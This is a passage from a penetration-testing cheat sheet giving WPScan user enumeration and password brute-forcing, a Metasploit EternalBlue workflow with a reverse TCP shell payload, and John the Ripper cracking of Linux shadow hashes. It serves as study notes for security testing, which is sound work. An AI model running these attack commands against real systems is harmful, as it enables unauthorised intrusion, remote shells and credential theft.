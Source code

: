 #### **WPScan (WordPress Assessment)**
*   **Purpose:** Enumerate and find vulnerabilities in WordPress sites.
*   **Critical Flags:**
    ```bash
    # Enumerate Users, Plugins, Themes
    wpscan --url http://192.168.1.50 --enumerate u,p,t

    # Password Bruteforce on the 'admin' user
    wpscan --url http://192.168.1.50 --usernames admin --passwords /usr/share/wordlists/rockyou.txt
    ```

#### **Metasploit (The Exploitation Framework)**
*   **Purpose:** Exploit known vulnerabilities.
*   **Workflow (Muscle Memory):**
    ```bash
    msfconsole                   # Start the framework
    search exploit_name          # e.g., search eternalblue
    use exploit/path/name       # e.g., use exploit/windows/smb/ms17_010_eternalblue
    show options                 # See what needs to be set
    set RHOSTS 192.168.1.50     # Set target IP
    set LHOST 192.168.1.10      # Set YOUR IP (for reverse shell)
    set PAYLOAD windows/x64/shell/reverse_tcp # Sometimes you need to set payload
    exploit OR run              # Launch the exploit

    # If you get a shell, background it with [CTRL+Z] or 'background'
    ```

---

### **3. Password Cracking**

#### **John the Ripper**
*   **Purpose:** Crack password hashes.
*   **Critical Flags:**
    ```bash
    # Crack a Linux shadow file (after unshadow)
    unshadow passwd.txt shadow.txt > hashes.txt
    john hashes.txt

    # Show cracked passwords
    john --show hashes.txt

    # Crack with a specific wordlist
    john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
    ```
